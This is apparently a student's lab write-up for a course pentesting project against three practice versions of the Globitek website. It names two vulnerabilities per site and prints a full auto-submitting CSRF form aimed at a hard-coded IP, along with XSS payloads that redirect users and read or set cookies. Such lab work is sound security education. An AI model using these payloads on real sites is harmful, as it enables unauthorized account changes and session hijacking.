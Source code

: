# Project 8 - Pentesting Live Targets

Time spent: 8 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection. Reason: Developer forgot to properly sanitize salesperson.php query.

<img src='Blue1.gif' title='SQLI'/>

Vulnerability #2: Session Hijacking/Fixation. Reason: Website does not check if user-agent is the same as the one used when first user login, cookie set without HttpOnly and secure flag, and PHPSESSID is not regenerated and is allowed to be a year old.

<img src='Blue2.gif' title='Session Hijacking/Fixation'/>


## Green

Vulnerability #1: Username Enumeration. Reason: Developer forgot to keep span tag class the same when username is or is not found, leading to vulnerability. 

<img src='Green1.gif' title='Username Enumeration'/>

Vulnerability #2: Cross-Site Scripting. Reason: Detected that Stored XS Script was run in admin feedback panel.

<img src='Green2.gif' title='Cross-Site Scripting'/>


## Red

Vulnerability #1: Insecure Direct Object Reference. Reason: Developer forgot to check if object reference request is made public or not. Other two websites properly redirected user to public/territories folder.

<img src='Red1.gif' title='IDOR'/>

Vulnerability #2: Cross-Site Request Forgery. Reason: Developer forgot to check for CSRF token on salesperson edit form submit, check for domain name, and disallow loading responses onto iframes. 

<img src='Red2.gif' title='Cross-Site Request Forgery'/>

Script used:

```
<!DOCTYPE html>
<html>

<head>
  <title>Real Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://104.197.73.39/red/public/staff/salespeople/edit.php?id=5" method="post" id="f" style="display: none;" target="hidden_results">
    <input name="first_name" value="Malcom" type="text">
    <input name="last_name" value="XX" type="text">
    <input name="phone" value="555-101-1080" type="text">
    <input name="email" value="bthepwr@salesperson.com" type="text">
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```

# Bonus Objective 2

- It is possible to redirect a user to another website by entering the following code in the feedback textbox Green's contact form `<script>window.location.href = "http://example.com";</script>` then submitting.
- The cookie single cookie, PHPSESSID, used throughout the website, it is set using HttpOnly, which prevents it from being accessed in javascript on modern web browsers, but older browsers (Firefox < 3, IE < 6 SP1) might be still be vulnerable, viewable by using XSS `<script>alert(document.cookie);</script>` or `<script>var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      alert(this.getAllResponseHeaders());
    }
  };
  xmlhttp.open("GET", “/“, true);
  xmlhttp.send();</script>`.
- It is possible to set a cookie by using XSS, `<script>document.cookie="username=something";</script>`, in Green's contact form.
 
Testing Bonus Objective 2 

<img src='Bonus2.gif' title='Cross-Site Scripting'/>

## Notes


